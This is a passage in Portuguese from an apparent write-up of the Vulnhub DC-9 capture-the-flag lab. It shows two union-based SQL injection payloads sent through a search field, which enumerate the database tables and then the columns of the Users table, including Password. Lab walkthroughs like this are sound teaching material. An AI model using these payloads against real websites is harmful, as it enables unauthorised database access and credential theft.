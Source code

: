 


* Listando as tabelas do banco de dados que esta sendo usado: **StaffDetails** e **Users**

```bash
search=Fred' union select 1,2,3,4,5,table_name from information_schema.columns where table_schema = database() #
```

![](/assets/img/Vulnhub/DC-9/tabelas-staff.png)




* Listando as colunas da tabela "Users": **UserId**, **Username** e **Password**

```bash
search=Fred' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'Users' #
```
